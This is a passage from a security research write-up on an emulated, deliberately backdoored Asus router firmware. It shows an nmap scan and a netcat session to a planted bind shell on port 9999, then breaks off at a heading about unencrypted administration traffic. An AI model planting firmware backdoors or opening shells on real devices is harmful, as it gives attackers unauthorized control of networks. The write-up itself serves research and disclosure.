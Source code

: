 	$ nmap 192.168.1.1

	Starting Nmap 6.40 ( http://nmap.org ) at 2017-07-19 15:26 PDT
	mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
	Nmap scan report for 192.168.1.1
	Host is up (0.11s latency).
	Not shown: 996 closed ports
	PORT     STATE SERVICE
	80/tcp   open  http
	515/tcp  open  printer
	9100/tcp open  jetdirect
	9999/tcp open  abyss


Connect to our bindshell and verify that it works:


	$ nc -nv 192.168.1.1 9999
	Connection to 192.168.1.1 9999 port [tcp/*] succeeded!
	[~] Welcome to @OsandaMalith's Bind Shell

	cat /var/log/output
	yea buddy!!!!!!!!!!!!

	uname -a
	Linux (none) 2.6.32.70 #1 Thu Feb 18 01:44:57 UTC 2016 mips GNU/Linux

	ls -la
	drwxr-xr-x   20 1000     1000          4096 Jul 19  2017 .
	drwxr-xr-x   20 1000     1000          4096 Jul 19  2017 ..
	drwxr-xr-x    2 1000     1000          4096 Jan 10  2015 asus_jffs
	drwxr-xr-x    2 1000     1000          4096 Jan 10  2015 bin
	drwxr-xr-x    2 1000     1000          4096 Jan 10  2015 cifs1
	drwxr-xr-x    2 1000     1000          4096 Jan 10  2015 cifs2
	drwxrwxrwt    4 admin    root          4100 Dec 31 16:02 dev
	lrwxrwxrwx    1 1000     1000             7 Jul 19  2017 etc -> t

    .. snip ..

So it turned out the backdoored firmware was indeed running
successfully and provided a backdoor on port 9999.


## Online Analysis

Now that the firmware was running I analyzed the firmware from the UI
to determine if any vulnerabilities could be found. There were a few
potential candidates for things I felt could lead to security
vulnerabilities but most lead to deadends. There was 1 vulnerability
however that I did find, confirmed, and reported to Asus. This issue
was already a known issue to Asus and said that it has been patched in
modern routers as this router has been EOL. The vulnerability is as follows:


## Vulnerability: No Encryption Of Administration Requests / Responses
